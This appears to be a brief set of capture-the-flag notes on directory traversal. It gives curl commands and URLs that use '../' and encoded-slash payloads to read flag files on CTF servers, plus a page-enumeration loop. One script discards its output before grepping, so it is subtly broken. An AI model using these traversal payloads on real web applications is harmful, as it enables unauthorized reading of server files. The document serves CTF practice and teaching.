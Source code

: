 ### Directory Traversal

---

```py
#!/bin/bash
curl -X POST "http://saturn.picoctf.net:52472/read.php" -d filename=../../../../flag.txt >/dev/null 2>&1 | grep -ho "picoCTF{.*}"
```

```py
https://vertical-traversal.tuctf.com/get/...%2Fflag.txt
```

```py
for i in $(seq 3000 4000); do curl -s https://directory.web.actf.co/$i.html | grep -v "another file";done
```

[Filtering](https://security.stackexchange.com/questions/96736/path-traversal-filter-bypass-techniques)

